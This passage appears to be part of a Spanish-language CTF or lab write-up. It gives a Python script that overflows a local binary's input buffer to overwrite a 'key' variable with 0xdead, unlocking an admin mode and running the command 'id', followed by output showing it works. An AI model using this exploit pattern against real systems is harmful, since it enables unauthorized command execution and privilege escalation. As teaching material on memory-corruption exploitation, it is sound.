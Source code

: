 ```bash
# En este caso, 'A' es solo un carácter de relleno para alcanzar el valor deseado.
RIP = b"A" * offset

# 3. Representación de 0xdead en dos bytes: 0xad y 0xde.
# Queremos sobrescribir la variable 'key' con el valor 0xdead. Este valor se representa en hexadecimal
# como dos bytes: 0xad (más bajo) y 0xde (más alto).
dead = b"\xad\xde"

# 4. Comando adicional que se ejecutará al sobrescribir la 'key'.
# El comando 'id' para ver que usuario somos o bajo el que se esta ejecutando
command = b"id"

# 5. Crear el payload final, que consiste en:
# - RIP: Llenamos con 'A' hasta llegar a la posición de la variable 'key'
# - dead: Sobrescribimos 'key' con 0xdead
payload = RIP + dead

# 6. Nombre del binario que vamos a ejecutar
# En este caso, es un binario llamado 'command_exec' que se encuentra en el directorio /opt y lo ejecuta directamente
program = ["Ruta_binario"]

# 7. Ejecutar el binario con un proceso hijo utilizando Popen.
# Utilizamos stdin=subprocess.PIPE para poder enviar datos (el payload) al binario de forma controlada.
process = subprocess.Popen(
    program, stdin=subprocess.PIPE
)

# 8. Enviar el payload al programa a través de stdin.
# El primer payload sobrescribe la ubicación de la 'key' con el valor 0xdead.
process.stdin.write(payload + b"\n")
process.stdin.flush()  # Aseguramos que el payload se envíe correctamente.

# 9. Ahora que hemos sobrescrito la 'key', enviamos el comando adicional que se ejecutará,
# en este caso, 'id' para ver que usuario somos o bajo el que se esta ejecutando
process.stdin.write(command + b"\n")
process.stdin.flush()

# 10. Esperamos a que termine el proceso.
# Esto asegura que el binario termine su ejecución antes de finalizar el script.
process.wait()
```

Ejecutamos el exploit:
```bash
python3 commandExploit.py
```

Funciona correctamente:
**Nota** todas estas pruebas fueron primero en mi maquina atacante para maximizar el proceso:
```bash
Escribe la contraseña: Estás en modo administrador (key = dead)
Escribe un comando: uid=1000(nate) gid=1000(nate) grupos=1000(nate)
```
